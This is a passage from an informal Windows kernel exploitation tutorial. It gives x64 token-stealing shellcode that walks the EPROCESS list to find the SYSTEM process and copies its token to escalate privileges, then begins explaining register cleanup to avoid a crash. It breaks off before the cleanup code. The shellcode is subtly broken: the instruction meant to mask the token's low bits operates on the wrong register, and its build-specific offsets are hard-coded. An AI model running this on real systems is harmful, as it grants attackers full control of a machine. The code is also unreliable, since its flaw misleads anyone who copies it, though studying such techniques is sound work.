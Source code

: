 ## Writing The Shellcode 

now since our test shellcode worked we can right real shellcode, we are in kernel mode so first idea that comes to mind is token so we will steal a token and give it to our process in order to escalate our privs so lets right our shellcode 

```
[BITS 64]
start:
  mov rax, [gs:0x188]       ; KPCRB.CurrentThread (_KTHREAD)
  mov rax, [rax + 0xb8]     ; APCState.Process (current _EPROCESS)
  mov r8, rax               ; Store current _EPROCESS ptr in r8

loop:
  mov r8, [r8 + 0x1d8]      ; ActiveProcessLinks.Flink 
  sub r8, 0x1d8             ; Go back to start of _EPROCESS 
  mov r9, [r8 + 0x1d0]      ; UniqueProcessId (PID) 
  cmp r9, 4                 ; SYSTEM PID == 4? 
  jnz loop                  ; Loop until PID == 4

replace:
  mov r9, [r8 + 0x248]      ; Get SYSTEM token
  and cl, 0xf0              ; Clear low 4 bits of _EX_FAST_REF structure
  mov [rax + 0x248], r9     ; Copy SYSTEM token to current process

```

what this does is first get the current thread in the cpu then inside the APCState there is a field for the current EPROCESS called `APCState.Process`, in kernel mode all EPROCESS are linked in a doubly linked circular list inside ActiveProcessLinks we find the address to the next process so we traverse the list and we subtract the offset of the `ActiveProcessLinks` so we get to the start of the EPROCESS then we look at the `UniqueProcessId` to find the process id we are looking for pid number 4 which is the SYSTEM pid once we find it we get its token and copy it into our EPROCESS which gives us the same privs

### Generic Cleanup Technique

if you run the exploit with that shellcode you will get a BSOD, why ? 

well because we hijacked the execution flow and altered with the registers so after our shellcodes finishes the system expects the registers to have the values it had before the hijack and thats why we need to preform proper cleanup when we exit our shellcode.

we can push all registers before we do anything then pop them at the end of the shellcode but i guess you will need more rop chains to backup the registers before the op 

or what we can do is use a structure inside our current thread struct ETHREAD which holds the registers before we entered kernel mode so instead of staying in kernel mode we go back to user mode you can read more about it from [here](https://kristal-g.github.io/2021/05/08/SYSRET_Shellcode.html) we basically mimic what the system does when calling `syscall` which is how the system tells the kernel to do stuff from usermode 

here is the code 
